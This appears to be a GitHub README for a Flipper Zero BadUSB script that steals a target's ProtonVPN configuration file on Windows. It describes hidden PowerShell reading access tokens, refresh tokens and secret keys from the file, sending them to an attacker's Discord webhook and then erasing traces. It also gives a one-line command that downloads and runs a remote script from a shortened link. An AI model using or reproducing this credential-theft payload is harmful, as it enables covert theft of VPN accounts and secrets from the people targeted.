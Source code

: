 # ProtonVPN config file - BadUSB ✅

A script used to stole target ProtonVPN config file.


[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Credentials, Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will stole target ProtonVPN config file.

Opens PowerShell hidden, grabs ProtonVPN config file, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.
In the config file you can find a lot information about the user like:
- UserUid 
- UserAccessToken
- UserRefreshToken
- UserAuthenticationPublicKey
- UserAuthenticationSecretKey
- UserAuthenticationCertificatePem
- UserCertificationServerPublicKey 
- and so on...

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* ProtonVPN user logged at least one time
* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke Get-Content for get in plaintext the ProtonVPN .config content
* Invoke-WebRequest will be entered in the Run Box to send the content

```
powershell -w h -ep bypass $discord='<your-webhook-here>';irm bit.ly/ProtonVpnConfigScript | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>